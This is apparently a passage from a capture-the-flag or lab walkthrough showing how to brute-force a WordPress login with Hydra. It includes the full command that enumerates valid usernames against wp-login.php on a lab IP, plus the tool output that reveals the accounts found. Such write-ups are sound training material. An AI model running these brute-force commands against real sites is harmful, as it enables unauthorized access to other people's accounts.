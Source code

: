 ![alt text](images/login_in.jpg)








### Option 2 Hydra

#### Overview 
Brute-forcing a WordPress login involves two main steps: identifying valid usernames and then brute-forcing passwords for those usernames. Hydra, a powerful and versatile password-cracking tool, can be used to perform these tasks efficiently.

#### Identifying valid usernames

```python linenums="1" hl_lines="10 11 13" 
┌──(hcoco1㉿kali)-[~]
└─$ hydra -L fsocity_sorted_unique.dic -p invalidpassword 192.168.1.226 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=Invalid username"

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-25 13:23:15
[DATA] max 16 tasks per 1 server, overall 16 tasks, 11452 login tries (l:11452/p:1), ~716 tries per task
[DATA] attacking http-post-form://192.168.1.226:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:F=Invalid username
[STATUS] 3665.00 tries/min, 3665 tries in 00:01h, 7787 to do in 00:03h, 16 active
[80][http-post-form] host: 192.168.1.226   login: ELLIOT   password: invalidpassword
[80][http-post-form] host: 192.168.1.226   login: Elliot   password: invalidpassword
[STATUS] 3643.00 tries/min, 7286 tries in 00:02h, 4166 to do in 00:02h, 16 active
[80][http-post-form] host: 192.168.1.226   login: elliot   password: invalidpassword
```